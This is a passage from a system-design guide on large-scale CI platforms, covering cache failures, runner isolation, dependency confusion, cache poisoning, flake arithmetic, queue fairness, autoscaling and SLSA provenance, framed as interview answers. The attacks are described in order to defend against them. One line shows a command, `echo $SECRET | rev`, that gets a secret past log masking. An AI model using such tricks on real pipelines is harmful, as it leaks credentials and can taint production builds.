!!! gotcha "The cache goes down and takes the entire company's productivity with it"
    **Symptom:** a 30-minute cache outage turns into four hours of no builds finishing, long after the cache is healthy again.
    **Mechanism:** every build falls back to full local execution: 30x the compute, all at once. The fleet is sized for 3% of actions executing, and now 100% are. A queue backlog builds at 30x the drain rate, and it keeps growing for the entire outage plus the time to drain.
    **Mitigation:** treat the cache as a tier-0 dependency with its own multi-AZ redundancy and 99.95% SLO. Client-side circuit breaker so builds fail fast on cache errors rather than each build retrying hundreds of thousands of lookups with backoff — the retries themselves can prevent recovery. During a cache outage, **shed load deliberately**: pause scheduled and nightly work, restrict to trunk and release-blocking pipelines, and communicate the degradation. Model the backlog drain time in advance so the incident commander knows that a 30-minute outage is a 4-hour recovery and can set expectations accordingly.

!!! gotcha "Self-hosted runners let one repository's PR compromise another's production deploy"
    **Symptom:** a deployment job for service B is found to have run an attacker's code. Service B's repository was never touched.
    **Mechanism:** a long-lived self-hosted runner executes a PR job from repository A, which writes a malicious `~/.docker/config.json`, a shim earlier on `$PATH`, a modified `~/.gitconfig` with an `insteadOf` redirect, or a poisoned language-toolchain cache. Later the same runner picks up a privileged job from repository B and inherits all of it.
    **Mitigation:** ephemeral runners, one job per instance, instance destroyed afterwards — this is the only real fix and everything else is mitigation of a broken model. If long-lived runners are unavoidable, they must be strictly partitioned by trust level, never shared between repos with different privilege, and never permitted to run jobs from forks. The general rule: **any machine that executes untrusted code must be assumed compromised the moment it does so**, and its lifetime must end there.

!!! gotcha "Dependency confusion: the resolver prefers a package you never published"
    **Symptom:** a build starts pulling `internal-auth-client@99.0.0` from the public registry. Nobody on the team published it. It exfiltrates environment variables on install.
    **Mechanism:** the internal package name is unregistered publicly. An attacker publishes it with an absurdly high version. Default resolver behaviour searches configured registries and prefers the highest version, so the public package wins — and package-manager install hooks run arbitrary code with the build's credentials.
    **Mitigation:** register your internal namespaces publicly as defensive placeholders. Configure the internal registry so internal scopes **never** fall through to a public index — scope-to-registry pinning, not just registry ordering. Pin every dependency by digest in a lockfile and verify on install. Disable install scripts where the ecosystem permits. And treat any *new* external dependency as a change requiring review, because the introduction moment is when this attack lands.

!!! gotcha "Test shards are sized alphabetically and the critical path is one test"
    **Symptom:** a 40-way-parallel test job reports "40 shards, 20-minute job", and 39 shards finish in 90 seconds while one runs for 20 minutes. Adding parallelism changes nothing.
    **Mechanism:** shard assignment by name hash or alphabetical order, with heavy-tailed test durations. The longest single test sets the floor for the entire job, and therefore for every PR in the repo.
    **Mitigation:** bin-pack shards by p95 historical duration (longest-processing-time-first is trivially implementable and near-optimal here), which typically cuts the critical path 3-5x at zero cost. Then attack the tail directly: surface the top 10 longest tests as a per-team dashboard, because a single 18-minute integration test is usually one sleep loop or one missing fixture away from being 90 seconds. Also cap per-test timeouts, so a hung test costs one timeout rather than the whole job's wall clock.

!!! gotcha "`set -x` in a debug session leaks a production credential into a public log"
    **Symptom:** a token appears in plaintext in a build log. Log scrubbing did not catch it because the token was constructed by string concatenation in the traced command.
    **Mechanism:** someone added `set -x` while troubleshooting, and shell tracing prints every command after expansion. Masking matches literal known values; it cannot match a value assembled at runtime, base64-encoded, or split across lines.
    **Mitigation:** the structural fix is to have no long-lived secret at all — OIDC federation means the leaked credential is a 10-minute token bound to one run. Beyond that: inject secrets as `tmpfs` files rather than environment variables so tracing cannot print them; lint for `set -x` and block it in jobs with credentials; scan artifacts as well as logs, since a secret baked into an image layer never appears in a log at all. And be explicit in your threat model that **log scrubbing is a defence against accidents, never against a hostile job** — anyone claiming otherwise has not thought about `echo $SECRET | rev`.

!!! gotcha "The build cannot reproduce a release from six months ago"
    **Symptom:** a security patch is needed on release 4.2. Rebuilding from the tag fails: a dependency version was yanked, a base image tag now points elsewhere, and a toolchain URL 404s.
    **Mechanism:** the build depended on mutable external references — floating tags, version ranges, URLs — none of which are inputs under your control. The source is pinned; the *environment* is not.
    **Mitigation:** pin everything by digest, including base images and toolchains. Vendor or mirror external dependencies into an internal registry with retention at least as long as your support window. Store the **provenance and SBOM separately from the artifact and with longer retention**, so even when the artifact is gone you can answer "what was in it?". Test the rebuild path: a scheduled job that rebuilds a randomly-chosen old release and byte-compares against the stored artifact is the only way to know this works before you need it — and it doubles as your reproducibility verification.

!!! gotcha "A trigger loop consumes the fleet because CI commits to the repo that triggers CI"
    **Symptom:** thousands of identical runs for one repository, fleet saturated, everyone's queue wait at 40 minutes.
    **Mechanism:** a job auto-formats code, bumps a version file, or updates a lockfile and pushes the result. The push fires the webhook. The new run formats again. Nothing converges because the formatter is not idempotent on its own output, or because each run stamps a new timestamp.
    **Mitigation:** bot-authored commits must be excluded from triggering, by author identity rather than by a `[skip ci]` convention that a single forgotten flag defeats. Per-repo submission rate limits with loop detection (N runs for the same repo within a window, with high commit similarity) that auto-pause the repo and page its owner. Per-tenant concurrency caps so that even a loop that evades detection is bounded to that tenant's share. And fair queuing underneath all of it, so the blast radius of the incident is one team rather than the company.

!!! gotcha "The CI platform deploys itself and cannot recover from a bad deploy"
    **Symptom:** a broken release of the CI platform is shipped. Rolling it back requires running a pipeline. The pipeline needs the platform. Nothing ships, including the fix.
    **Mechanism:** the classic bootstrap circularity. It is invisible in normal operation because the happy path always works.
    **Mitigation:** a separate bootstrap pipeline on separate infrastructure, with its own credentials, capable of deploying and rolling back the platform. It must be **exercised on a schedule** — a monthly deploy of the platform through the bootstrap path — because an emergency-only path rots silently and you discover the rot during the emergency. Additionally: keep a documented manual deploy procedure, and make sure at least two people have executed it in the last quarter.

!!! gotcha "Artifact retention is deleted on a cost review and rollback becomes impossible"
    **Symptom:** during an incident, the team tries to roll back to the build from five weeks ago. The image is gone. Rebuilding takes 40 minutes and then fails on a yanked dependency.
    **Mechanism:** trunk artifact retention was cut from 90 days to 14 in a storage cost-reduction exercise. Nobody modelled retention as an availability control, because it appears on the storage line of the budget rather than the reliability line.
    **Mitigation:** derive retention from incident history — the p99 rollback distance across your last two years of incidents — not from the storage budget. Tier it: PR artifacts 7 days, trunk 90, released versions indefinite with an immutability lock. Keep provenance and SBOM longer than the artifacts themselves. And when the cost conversation comes up, present the trade as "how far back can we roll back during an outage?", which is a question with an owner, rather than "how many terabytes do we keep?", which is a question with only a price.

---

## 13. Interview Angle

!!! interview "Open by reframing CI as a caching problem"
    Most candidates describe a job runner: webhook, queue, container, script, artifact. Instead say: **"At this scale CI is a distributed caching problem with a scheduler attached. A full build of a 200,000-target graph is 167 CPU-hours, so the entire design is about computing the minimal rebuild set from content-addressed action keys. At a 97% hit ratio a build is five minutes; at 90% it is sixteen minutes and costs three times as much. Everything else — runners, queues, artifacts — is in service of that number."** You have made the hit ratio the protagonist, which is correct, and every subsequent trade-off now has a unit.

!!! interview "Do the hit-ratio arithmetic on the whiteboard"
    $T = N(1-h)t/P$ with $N = 200{,}000$, $t = 3$ s, $P = 64$: $h=0.90 \to 937$ s, $h=0.97 \to 281$ s, $h=0.99 \to 94$ s. **State the non-obvious conclusion: the last two points of hit ratio are worth more than the first ninety.** Then add the floor — a DAG with critical path depth 40 cannot go below 120 s no matter what — and note that past $h=0.99$ you are latency-bound on graph structure, so the next optimisation is a code change, not an infrastructure change. Very few candidates get to "the answer is to restructure the dependency graph", and it is a strong signal when they do.

!!! interview "Volunteer the cache-poisoning attack before you are asked about security"
    "There is an attack I want to design against explicitly. The remote cache is a key-value store where any writer asserts 'the output of action X is Y'. If a pull-request build can write to the cache that trunk reads, then anyone who can open a PR can inject bytes into a production binary — no merge, no review bypass, no stolen credential. My mitigation is trust tiering: only trusted builders on protected branches write to the trusted cache; PR builds read it and write to their own namespace, which keeps 97% of the hit-ratio benefit at none of the risk. Plus signed `ActionResult` entries, because the CAS is self-verifying by construction and **the action cache is not**." That asymmetry between CAS and AC is a detail almost nobody raises unprompted, and it demonstrates you have actually thought about the trust model rather than reciting SLSA levels.

!!! interview "Use the flake arithmetic to force the structural answer"
    $P(\text{green}) = (1-p)^N$. At 30,000 tests, a per-test flake rate of $10^{-4}$ gives a 5% green-build rate; you need $p < 1.7 \times 10^{-6}$ — one flake per 600,000 executions — to hold 95%. **"No amount of asking people to fix their flaky tests reaches that number, so the platform has to handle it structurally."** Then give the hermeticity payoff: if builds are hermetic, two executions with the same action digest had byte-identical inputs, so a divergent outcome is a flake *by definition* rather than by inference. That is the moment to connect two deep dives together, which is exactly the kind of synthesis interviewers are listening for.

??? question "Follow-up 1: Cache hit ratio dropped from 98% to 71% overnight. Find it."
    **Answer.** First establish the scope, because it determines everything else: break the ratio down by repository, target pattern, runner class and platform. A uniform drop across everything is infrastructure; a drop concentrated in one target pattern is somebody's commit. In my experience it is a commit about 70% of the time and a runner image rollout about 25%. **Runner image first**, because it is the most common and the easiest to confirm: a new toolchain container digest changes the `platform` field of every action digest that uses it, invalidating the entire cache for that platform. That is expected behaviour, not a bug, and the fix is to pre-warm by running trunk builds on the new image before general rollout — if the rollout timeline matches the drop, you are done investigating. **Second, the volatile-input hunt.** Take one logical target that used to hit and now misses, dump its action digest from a run last week and from a run today, and diff the canonical proto field by field. The differing field names the cause immediately, and it is almost always one of four things: a timestamp or build number in a compile flag, an absolute workspace path that differs between workers, an environment variable that got added to the allow-list, or a floating container tag that was rebuilt. **Third, eviction.** If the CAS is at capacity it evicts blobs that builds are about to need, so hit ratio degrades even though the keys are stable. Check eviction rate against store utilisation; the signature is a gradual slide rather than a cliff, so a same-day 27-point drop is unlikely to be this. **Fourth, a key-schema change** shipped in the build tool itself — versioned deliberately, but someone may have rolled it out without a warm-up. **Fifth, a genuinely enormous change**: a refactor touching a root-level `BUILD` file invalidates the entire downstream graph, and that is the cache working correctly. Once identified, act fast and explain later: at 71% the executed-action count is 14x normal, the fleet will saturate within the hour, and using §3's model the incremental compute cost is roughly $4,000 a day. Prevention is an alert on the *derivative* of hit ratio per target pattern, so this is caught in hours rather than at the next cost review, plus a lint over the action-key inputs for known-volatile values.

??? question "Follow-up 2: How do you stop a compromised build job from signing a malicious artifact?"
    **Answer.** The core principle is that **the build job must not be able to forge its own provenance**, and that is precisely the defining requirement of SLSA build level 3. Concretely, several things have to be true simultaneously. First, the signing key is never present inside the build container — not as a file, not in the environment, not reachable via a metadata endpoint. A separate privileged component observes the build (it knows the source commit, the builder identity, the resolved dependency digests and the output digest because it orchestrated them) and produces the signed attestation out of band. If the build step can reach the key, a compromised step signs whatever it likes and the attestation is worth nothing. Second, builders are ephemeral and single-use: a fresh, immutable environment per build, destroyed afterwards, so a compromise cannot persist to the next build. Third, builds are hermetic — no network, all inputs declared and digest-pinned — which shrinks the attack surface to "compromise something that is already an input", and inputs are themselves reviewed and pinned. Fourth, and this is the part people forget, **verification must happen at admission**: the deployment target refuses to run an artifact whose signature does not verify against the expected builder identity and whose provenance does not show the expected repository and branch. Attestations nobody checks are theatre, and the enforcement point is where the entire value lives. Fifth, keyless signing via a transparency log (sigstore/Rekor) means there is no long-lived key to steal at all, and every signature is publicly logged, so a signature you did not intend to make is detectable after the fact. Sixth, the strongest layer: **reproducible builds with an independent rebuilder.** A second, separately-administered builder rebuilds the artifact from the same inputs and compares digests. A divergence means either a hermeticity bug or a compromise, and this is the only defence that actually detects the SolarWinds pattern, where the attacker sat inside the build process and modified outputs in flight while everything else reported success. Finally, I would name what this does *not* stop: if the source itself is malicious and was reviewed by a compromised reviewer, every one of these controls passes with flying colours. That is the SLSA L4 two-party-review requirement, and it is an organisational control, not a technical one.

??? question "Follow-up 3: Design queue fairness for 3,000 teams sharing 2,000 runners."
    **Answer.** Three layers, applied in order, plus three backstops. **Priority classes first, and strictly**: release-blocking, trunk, pull request, scheduled/nightly. A release build preempts a nightly regression sweep every time. This one distinction resolves most perceived unfairness, because the jobs people actually wait on are a small minority of total volume, and nightly work should be running at negative priority on spot capacity designed to be preempted. **Weighted fair queuing within each class**, work-conserving so unused share is redistributed. The implementation detail that matters more than the algorithm: fair share must be accounted in **CPU-seconds consumed over a sliding window, not job count**, because otherwise a tenant submitting 5,000 one-second jobs out-competes a tenant submitting 3 one-hour jobs, and the gaming is trivial and immediate. **Dominant resource fairness** on top, because the fleet is heterogeneous: a tenant consuming 80% of the GPU runners and 2% of the CPU runners is at 80% of its dominant share and must not be able to claim CPU fairness. Without DRF, GPU- or macOS-heavy teams quietly starve everyone on a resource nobody has a dashboard for. Now the backstops, which matter as much as the scheduler. **Per-tenant concurrency caps**, because fair queuing still permits one tenant to occupy the entire fleet when nobody else has work — and then a burst from another tenant waits for all of those jobs to drain, which can be many minutes. **Anti-starvation aging**: effective priority rises with queue time, so a low-priority job cannot wait indefinitely behind a continuously-busy high-priority tenant. **Admission control on submission rate**, because a trigger loop is a real and frequent incident and fair queuing happily lets a loop consume its full share forever. On weights: I would default everyone to equal weight and resist the temptation to encode org-chart importance, because weight negotiation becomes a political process that consumes more engineering time than it saves. The exception worth making is a small reserved capacity pool for incident response, so a hotfix is never queued behind anything. And the SLI that tells you whether any of this works is **p95 queue wait per tenant** — a global p95 hides the tenant that is always at the back, which is precisely the tenant that will escalate.

??? question "Follow-up 4: Tests are green in CI and the service breaks in production. Why?"
    **Answer.** I would work down a list, because there are several distinct mechanisms and they need different fixes. **The cache returned stale results.** A non-hermetic action read an undeclared input; that input changed; the action digest did not; the cache served an old output. The build is green because the *tests also came from the cache*, so nothing actually ran against the new code. This is the most insidious one because it is invisible to every conventional signal, and it is why continuous reproducibility sampling exists. **Flakes masked a real failure.** If retries are enabled on test failure, a genuinely broken test passed on attempt three; or the test was quarantined months ago, has been failing 100% of the time since, and nothing alerts on quarantined tests because they do not block the build. That last one is a specific policy gap worth naming: a quarantined test that goes from intermittent to always-failing is a real regression and must page. **The environment differs.** CI runs against mocks, a single-node database, an empty cache, `localhost` networking, and a fresh dataset. Production has real network partitions, connection-pool limits, a cold cache after deploy, cross-AZ latency, and ten years of data with shapes the fixtures never contained. This is the largest category by volume and the honest answer is that no test suite catches it — the mitigations are progressive delivery with a real canary, synthetic monitoring, and shadow traffic. **Concurrency and load.** CI runs tests serially or at parallelism 8; production has 500 concurrent requests, and races, deadlocks and pool exhaustion only appear under real contention. **Deployment-specific issues.** The artifact is correct and the config, migration ordering, secret, or feature-flag state is not — the code never ran with production's configuration. **Time and ordering.** Tests pin the clock; production has DST transitions, leap seconds, month boundaries and clock skew. **Test coverage of the wrong thing.** The suite covers code paths, not failure modes: nothing tests what happens when the downstream dependency returns 503 for ninety seconds. The structural conclusion I would offer: **CI proves the code is self-consistent, not that it works in production**, and the correct response is to invest in progressive delivery so production itself becomes the final test with a bounded blast radius, rather than to keep adding integration tests that make CI slower without closing the gap.

??? question "Follow-up 5: Design the runner autoscaler. What is the control signal?"
    **Answer.** The signal is **p95 queue wait per runner class**, with queue depth as a feed-forward term, and explicitly not CPU utilisation. Utilisation is ambiguous in exactly the wrong way: 100% with an empty queue is optimal, and 100% with a 500-job backlog is an outage, and the autoscaler cannot tell them apart. Queue wait is the thing the SLO is written against, so controlling it directly avoids an indirection that will eventually mislead you. Queue depth is added as feed-forward because queue wait is a lagging indicator — by the time p95 wait has risen, the damage is done — whereas a queue that is growing tells you to provision *now*. The control loop is asymmetric, deliberately: scale up fast and aggressively (a runner costs cents per hour and an engineer waiting costs far more), scale down slowly with a long stabilisation window and a scale-down floor, because thrashing means paying cold-start costs repeatedly and a 5:1 diurnal swing already gives you most of the savings. **Runner classes are separate control loops** with separate pools, because their cold-start costs differ by an order of magnitude — a macOS runner may take ten minutes to provision, which completely changes its warm-pool sizing relative to a Linux container runner. **Warm pools** sized to p50 concurrency plus a burst factor, not to peak: §3's arithmetic says $112k a year of warm pool buys back 733 engineer-hours of waiting per day, which is not a close call. The pool holds instances that are booted, registered, image pre-pulled and with a warm git cache, so dispatch is 3 seconds instead of 135. **Capacity mix**: spot for the bulk, because CI jobs are short, idempotent and restartable, with an on-demand floor sized for the critical path so a region-wide spot reclamation degrades throughput rather than stopping all shipping; publish and deploy steps never run on spot. Handle preemption properly — on the notice, stop accepting new actions, upload any completed action results to the CAS so the work is preserved, and requeue the in-flight action. **Predictive scaling** for the known shape: CI load is extremely diurnal and weekly-periodic, so a simple schedule-plus-trend predictor removes most of the reactive lag, and known events (a release train, a dependency bump landing across 200 repos) can be pre-provisioned. Finally, the thing that makes the autoscaler *correct* rather than merely responsive: **check the cache hit ratio before scaling.** A hit-ratio regression presents identically to a demand increase, and scaling the fleet to absorb it is both expensive and wrong. I would wire that check into the runbook and, honestly, into the alert text.

??? question "Follow-up 6: An engineer says builds are slow. Walk me through your diagnosis."
    **Answer.** I would start by refusing the framing, politely: "slow" is three different problems and the fix differs entirely. First I decompose the wall time into queue wait, graph analysis, cache lookup, action execution and artifact upload, because the platform should already report that breakdown per run, and if it does not, that is the first thing to build. **If it is queue wait**, it is a fleet or fairness problem: check per-class saturation, autoscaler health (cloud quota, spot availability, a configured maximum), and whether one tenant is dominating. And check the hit ratio anyway, because a cache regression manifests as a capacity problem. **If it is graph analysis**, the repo has outgrown from-scratch analysis — a 200,000-target graph takes 30-90 s to re-analyse before any action runs. Incremental analysis with a warm analysis server brings that to seconds and is frequently the largest single win available after the cache. **If it is cache lookup latency**, check whether lookups are batched — per-action lookups at 5 ms RTT across 200,000 actions is 16 minutes of pure latency and makes the cache slower than rebuilding — and check worker-to-cache locality, since a cross-region cache adds its RTT to every one of those lookups. **If it is action execution**, the question is how many actions ran: a high count means a hit-ratio problem (go to the earlier follow-up), and a low count with long wall time means the critical path. That is where I would look at the DAG: what is the depth, and what single chain dominates? A 40-deep chain because everything depends on one monolithic `common` target cannot be fixed by any amount of parallelism, and the honest answer to the engineer is that the repository needs restructuring. **If it is test execution**, check shard balance before anything else — alphabetically-sharded suites routinely have one shard 9x longer than the rest, and bin-packing by historical p95 duration is a free 3-5x on the critical path. Then look at the top 10 longest individual tests, because one 18-minute integration test sets the floor for every PR in the repo and is usually one sleep loop away from being 90 seconds. **If it is artifact upload**, check image layer ordering: `COPY . /app` before dependency installation invalidates every layer on every commit and turns a 40 MiB incremental push into 800 MiB. The meta-point I would make to the interviewer is that this diagnosis should be mechanical, not investigative — **if I cannot answer "where did the 12 minutes go?" from a dashboard within thirty seconds, that observability gap is the actual bug**, and it is worth fixing before any individual slowness complaint.

### Strong answer versus weak answer

| Dimension | Weak | Strong |
|---|---|---|
| Framing | "Webhook triggers a job that runs a script in a container" | "CI is a distributed caching problem with a scheduler attached; the hit ratio is the protagonist" |
| Caching | "Cache the dependencies directory between builds" | Content-addressed action digests over a Merkle input root; derives 94 s vs 937 s vs 2.6 h from the hit ratio |
| Cache keys | "Key on the commit SHA" | Lists what must be in the key (image digest, ISA, toolchain) and what must be excluded (timestamps, abs paths, build number), and prices a mistake at seven figures |
| Hermeticity | Not mentioned, or "we use containers" | No network, allow-listed env, pinned toolchain, path remapping — and names *wrong cache hits* as the failure mode, not wrong answers |
| Cache security | "Access control on the cache" | Write tiering; the PR-poisons-trunk attack in full; CAS self-verifies and the action cache does not |
| Flaky tests | "Retry failed tests" | $(1-p)^N$: at 30k tests you need $p < 1.7\times10^{-6}$; quarantine with owner, expiry and team budget; retry only infra errors |
| Flake detection | "Rerun and see if it passes" | Identical action digest with divergent outcome is a flake by definition — and explains that this is the payoff for hermeticity |
| Fairness | "Per-repo concurrency limits" | Priority classes, then WFQ over CPU-seconds (not job count), then DRF; plus aging, caps and submission rate limits |
| Autoscaling | "Scale on CPU utilisation" | p95 queue wait with queue-depth feed-forward; per-class loops; warm pool priced at $112k for 733 engineer-hours/day |
| Supply chain | "We sign our artifacts" | SLSA L3's defining property — the build cannot forge its own provenance; verification at admission; reproducible rebuilder as the SolarWinds detector |
| Secrets | "Store them in a vault and inject as env vars" | OIDC federation with claim-conditioned trust policy; `tmpfs` files; scrubbing is an accident backstop, not a control |
| Failure | "Retry the build" | Cache outage causes a 30x compute amplification and a 4-hour backlog drain from a 30-minute outage; shed nightly work deliberately |
| Biggest risk | "A runner going down" | "A single commit that breaks a cache key. No alert fires, nothing is red, and it costs $4k a day and 15 minutes per developer per build" |

---

## 14. Key Takeaways

1. **CI at scale is a caching problem.** $T = N(1-h)t/P$. The hit ratio is the single number that determines both developer latency and infrastructure cost, and the last two points of it are worth more than the first ninety.
2. **The action digest is the whole design.** Command, Merkle root of all inputs, allow-listed environment, and platform (image *digest*, architecture, ISA). Anything omitted is a correctness bug; anything volatile that is included is a seven-figure hit-ratio bug.
3. **Non-hermetic builds produce wrong cache hits, not just flaky ones.** A stale output from an undeclared input is undetectable by testing, because the tests came out of the cache too. Enforce the sandbox and verify reproducibility with continuous double-execution sampling.
4. **A shared cache is a shared trust boundary.** Any writer can assert "action X produces Y", so a PR build with write access can inject bytes into a production binary without merging anything. Trust tiering — trusted builders write, everyone else reads — keeps the economics and removes the attack.
5. **The flake arithmetic forces the answer.** $(1-p)^N$ at 30,000 tests demands a per-test flake rate below $1.7\times10^{-6}$ to hold a 95% green rate. Ask nicely and you will never get there; quarantine with owners, expiries and team budgets, and never retry test failures to turn a build green.
6. **Fairness is accounted in CPU-seconds, not jobs.** Priority classes first, then weighted fair queuing, then dominant resource fairness, with concurrency caps, aging and submission rate limits as backstops. Measure p95 queue wait *per tenant*, because a global p95 hides the team that is always last.
7. **Scale the fleet on queue wait, not utilisation** — and always check the cache hit ratio before scaling, because a cache regression looks exactly like a demand increase and scaling into it is expensive and wrong.
8. **SLSA L3's real requirement is that the build cannot sign its own provenance.** The key lives outside the build environment, builders are ephemeral, and verification happens at admission. Reproducible builds with an independent rebuilder are the only control that detects an attacker sitting inside the build process.
9. **The best secret is no secret.** Workload identity federation with claim-conditioned trust policies means nothing long-lived exists to steal, the credential is bound to one run, and a PR branch cannot obtain the production role regardless of what its pipeline file says.
10. **Retention is an availability control, not a storage line item.** Artifact retention must exceed your maximum plausible rollback distance, and provenance must outlive the artifact so you can still answer "what was in the thing we shipped?" after the bytes are gone.
